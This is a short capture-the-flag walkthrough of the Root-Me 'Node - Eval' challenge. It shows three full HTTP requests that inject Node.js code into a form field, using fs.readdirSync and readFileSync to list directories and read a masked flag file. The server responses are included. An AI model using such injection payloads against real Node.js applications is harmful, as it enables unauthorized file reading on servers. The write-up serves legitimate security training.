 ```yaml
---
title: "Node - Eval"
description: "This challenge has a 1% success rate on root-me.org's webserver and involves injecting Node.js code to find the flag."
date: 2023-08-17
tags: ["cybersecurity", "challenge", "node", "root-me"]
---
```


![Node Eval rootme challenge article illustration](images/node-eval1.png)

# Node - Eval: Rootme Challenge
First, I want to clarify that I am against cheating; it's entirely unnecessary and silly, so I'll hide the flags/hints out of respect for the platform (although it won't prevent lamers from cheating).
The challenge has a success rate of 1% at the time of writing this mini-walkthrough, so I decided to write this to share my research.

---

To succeed in this challenge, you must first trigger the inputs to see how the application works.
Attempting a Node injection in one of the inputs, the code is evaluated and returned in the "Salary" input.
We then need to list the available paths in the current directory:
```
POST / HTTP/1.1
Host: challenge01.root-me.org:59039
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Origin: http://challenge01.root-me.org:59039
Connection: close
Referer: http://challenge01.root-me.org:59039/
Cookie: _ga_SRYSKX09J7=GS1.1.1690357352.6.1.1690357369.0.0.0; _ga=GA1.1.1315424028.1680516360
Upgrade-Insecure-Requests: 1

salary=65557&housing=56767&phone=5665&transport=6767&insurance=567567&credits=56567&taxes=65756&hobbies=res.end(require('fs').readdirSync('.').toString())
Output :
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Wed, 26 Jul 2023 08:06:04 GMT
Connection: close
Content-Length: 176

._firewall,._nginx.server-level.inc,._perms,._run,._test,.git,.gitignore,.npm-packages,Makefile,*****************,css,index.js,node_modules,package-lock.json,package.json,views
```
A mysterious folder named "*****************" is listed.

We then try to list the files available inside this folder:
```
POST / HTTP/1.1
Host: challenge01.root-me.org:59039
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 172
Origin: http://challenge01.root-me.org:59039
Connection: close
Referer: http://challenge01.root-me.org:59039/
Cookie: _ga_SRYSKX09J7=GS1.1.1690357352.6.1.1690357369.0.0.0; _ga=GA1.1.1315424028.1680516360
Upgrade-Insecure-Requests: 1

salary=65557&housing=56767&phone=5665&transport=6767&insurance=567567&credits=56567&taxes=65756&hobbies=res.end(require('fs').readdirSync('./*****************').toString())
Output :
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Wed, 26 Jul 2023 08:06:30 GMT
Connection: close
Content-Length: 9

*********
```
And there you have it, a flag file, let's display its contents:
```
POST / HTTP/1.1
Host: challenge01.root-me.org:59039
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 183
Origin: http://challenge01.root-me.org:59039
Connection: close
Referer: http://challenge01.root-me.org:59039/
Cookie: _ga_SRYSKX09J7=GS1.1.1690357352.6.1.1690357369.0.0.0; _ga=GA1.1.1315424028.1680516360
Upgrade-Insecure-Requests: 1

salary=65557&housing=56767&phone=5665&transport=6767&insurance=567567&credits=56567&taxes=65756&hobbies=res.end(require('fs').readFileSync('./*****************/*********').toString())
Output :
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Wed, 26 Jul 2023 08:07:09 GMT
Connection: close
Content-Length: 21

********************
```

Pretty easy ?:)

---

Writeup made by Bingo.
